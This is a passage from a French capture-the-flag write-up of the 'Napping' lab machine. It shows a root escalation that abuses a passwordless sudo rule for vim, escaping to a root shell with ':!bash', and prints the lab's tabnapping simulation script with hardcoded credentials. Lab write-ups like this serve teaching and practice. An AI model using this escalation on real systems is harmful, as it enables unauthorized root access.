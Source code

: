 On édite *query.py* avec Vim et on rajoute notre code au début.  

Quelques temps après notre clé est acceptée pour la connexion au compte adrian :  

```plain

adrian@napping:~$ cat user.txt
You are nearly there!

```

Premier réflexe, voir ce qu'il est possible de faire avec ce compte membre du groupe *administrators* :  

```plain
adrian@napping:~$ sudo -l
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```

On a un classique cas de lolbin. Sudo autorise l'exécution de */usr/bin/vim* (il faut donner le path en entier) en tant que root sans mot de passe. De là on utilisera la commande *:!bash* pour nous échapper de Vim et accéder à un shell.  

```plain

sudo /usr/bin/vim
(--snip exécution de bash via :!bash snip--)
root@napping:/home/adrian# id
uid=0(root) gid=0(root) groups=0(root)

root@napping:~# cat root.txt
Admins just can't stay awake tsk tsk tsk
```

Sous le capot
-------------

Voici le script Python qui se chargeait de simuler le tabnapping:  

```python
import requests
import re
import mysql.connector

mydb = mysql.connector.connect(
  host="localhost",
  user="adrian",
  password="P@sswr0d456",
  database="website"
)

mycursor = mydb.cursor()

mycursor.execute("SELECT * FROM links")

myresult = mycursor.fetchall()

data = {
        "username":"daniel",
        "password":"C@ughtm3napping123"
        }

for x in myresult:
  url1 = x[0]
```